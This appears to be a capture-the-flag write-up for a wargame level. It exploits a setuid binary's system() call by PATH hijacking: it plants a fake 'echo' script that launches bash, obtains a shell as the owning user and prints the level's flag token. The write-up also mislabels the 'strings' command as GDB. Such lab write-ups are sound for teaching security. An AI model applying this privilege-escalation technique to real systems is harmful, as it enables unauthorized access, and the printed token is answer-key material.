 ### Vulnerability Assessment

Upon accessing the home directory, an executable file is discovered. Executing it yields a simple message:

```bash
$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
$ ./level03
Exploit me
```

The executable has setuid permissions, indicated by `rws`, allowing it to run with the privileges of its owner, which in this case is `flag03`.

### Exploitation

The GNU Debugger (GDB) is utilized to inspect the executable:

```bash
> strings level03
```

The code reveals important functions like `getegid`, `geteuid`, `setresgid`, `setresuid`, and `system`. The program sets its real, effective, and saved user and group IDs to those returned by `geteuid` and `getegid`, and then calls `system`.

The use of `system` here is critical. If the executable is vulnerable to command injection, it can execute arbitrary commands with the privileges of the `flag03` user.

To exploit this vulnerability:

1. A fake `echo` command is created, which is actually a bash shell script.
2. The PATH environment variable is modified to ensure that the fake `echo` command is found before the real one.
3. The vulnerable executable is run, which now executes the fake `echo` command, giving a bash shell with the privileges of the `flag03` user.

```bash
level03 $ echo "/bin/bash" > /tmp/echo
level03 $ chmod 777 /tmp/echo && export PATH=/tmp:$PATH
level03 $ ./level03
flag03 $ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```